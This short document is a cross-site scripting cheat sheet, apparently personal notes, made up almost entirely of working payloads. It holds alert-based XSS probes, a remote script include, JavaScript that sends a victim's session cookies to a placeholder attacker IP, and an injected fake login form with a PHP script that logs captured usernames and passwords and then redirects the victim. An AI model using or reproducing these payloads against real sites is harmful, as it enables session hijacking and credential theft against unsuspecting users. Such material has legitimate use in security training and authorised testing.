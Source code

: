 Payload

https://www.youtube.com/watch?v=KHwVjzWei1c

```js
<script>alert(window.origin)</script>
<script>alert(document.domain)</script>
<img src="" onerror="alert(window.origin)">
```

Session Hijacking

test file

```js
// remote script
<script src="http://<attacker ip>/empty.js"></script>
```

hijacking.js

```js
// sudo python3 -m http.server 80
var oReq = new XMLHttpRequest();
oReq.open('GET', 'http://<attacker ip>/?output='+document.cookie, true);
oReq.send()
```

Phishing

```js
// confirm that the request can be sent out normally
document.write('<div><form id="form" action="http://<attacker ip>/phishing.php"><input type="text" id="username" name="username"><input type="password" id="pass" name="password"><button type="submit">Submit form</button></form></div>');
```

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("phishing.log", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://<target ip>/index.php");
    fclose($file);
    exit();
}
?>
```